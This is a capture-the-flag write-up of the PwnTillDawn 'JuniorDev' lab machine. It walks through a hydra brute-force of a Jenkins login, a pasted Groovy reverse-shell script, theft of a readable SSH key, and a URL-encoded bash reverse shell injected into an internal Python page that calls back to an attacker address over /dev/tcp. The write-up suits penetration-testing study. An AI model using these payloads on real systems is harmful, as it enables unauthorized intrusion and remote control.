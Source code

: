 # 10.150.150.38 ( JUNIORDEV )- PWNTILLDAWN WRITEUP

The following ports were found using rustscan

![](images/rustscan_results.png)

I served the ports to nmap and got found a http site

![](images/nmap_results.png)

It was a jekins login page, i tried the usual default login pairs but none worked.

![](images/jekins_failed_default.png)

After some digging I decided to use hydra to bruteforce it

![](images/hydra_command.png)

We got a hit :grin: !

![](images/hydra_success.png)

Inputed the details and we have a dashboard now.

![](images/jekins_dashboard.png)

Looked around and found a flag under the `people` tab

![](images/people.png)

Looked around a bit more and found out i could run scripts here. Found a walkthrough on how to get a shell using "Jekins Groovy Scirpt" here: `https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6`

I pasted the code into the groovy scripts input box 

```
String host="ip";
int port="port";
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

Then started a netcat listener and ran the script

![alt text](images/shell.png)

Found another Flag

![alt text](images/flag70.png)

Ran Linpeas but no dice, looked around and found another user `juniordev`, the user has a `.ssh` folder but i cannot `-ls -la` the folder due to permission issues

![](images/junirdevlsla.png)

But funny enough I can `cat` out it's presumed contents:

![](images/cat.png)

Copy paste and ssh into junior dev and voila we are juniordev

![alt text](images/jdevterminal.png)

Ran `Linpeas` again, no dice :unamused:, tried some suggested exploits, nothing. Looked a bit close and found something

![](images/ports.png)

A port that didn't show up during recon ,looked into it a bit more with `pspy`

![image of pspy](images/pspy.png)

Used ssh local port forwarding to open the local page:  
`ssh -L 8080:127.0.0.1:8080 juniordev@10.150.150.38 -i id_rsa -fN`   
and open my local page, we have a page now.

![alt text](images/pypage.png)

It looks like a simple additiion page created in python.  
There might be a chance to do some command injection.  
There is, some Burpsuite, Python and an ASCII table go a long way.

`%2Fbin%2Fbash+-i+>%26+%2Fdev%2Ftcp%2F10.66.67.138%2F4444+0>%261`

![](images/burp.png)
![](images/root.png)

Found a flag, and an image that could be a flag, will have to transfer it and look into the pic.  
Found a way to transfer it here `https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65`  

Got the image, opened it, got the flag and we're Done.  

![](images/final.png)

